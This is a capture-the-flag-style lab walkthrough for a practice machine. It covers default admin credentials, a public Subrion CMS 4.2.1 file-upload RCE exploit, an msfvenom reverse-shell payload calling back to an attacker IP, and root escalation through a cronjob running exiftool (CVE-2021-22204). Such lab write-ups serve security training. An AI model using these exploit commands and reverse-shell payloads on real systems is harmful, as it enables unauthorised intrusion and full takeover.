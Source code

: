 #Linux 
##### Summary
In this walkthrough, we will exploit the target via an authenticated file upload bypass vulnerability in Subrion CMS that leads to remote code execution. We'll then exploit a root cronjob via a script running exiftool every minute. #Linux

##### Enumeration
###### Nmap
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Guessing Admin Credentials with cred admin:admin successful.
Found the CMS name with version Subrion CMS 4.2.1 #CMS_Exploit

##### Exploitation
Subrion CMS 4.2.1 - File Upload Bypass and RCE
Public exploit search reveals a Remote Code Execution vulnerability in this version of the application. Let's update searchsploit and then copy the exploit to our working directory.
```
python3 49876.py -u http://exfiltrated.offsec/panel/ --user admin --pass admin
```

##### Reverse Shell
```
 msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.118.11 LPORT=4444 -f elf -o shell
```

##### Escalation
Cronjob Enumeration #cronjob
After further enumeration, we find an entry in the /etc/crontab file, executing /opt/image-exif.sh as root every minute.

ExifTool Arbitrary Code Execution
Public search reveals the following exploit-db document on CVE-2021-22204. The document details an arbitrary code execution vulnerability in the DjVu file format in ExifTool versions 7.44 and up. Although we cannot easily determine the version of the tool running on this target, we'll give this exploit a try.

This exploit uses djvumake, which we can install with the djvulibre-bin package.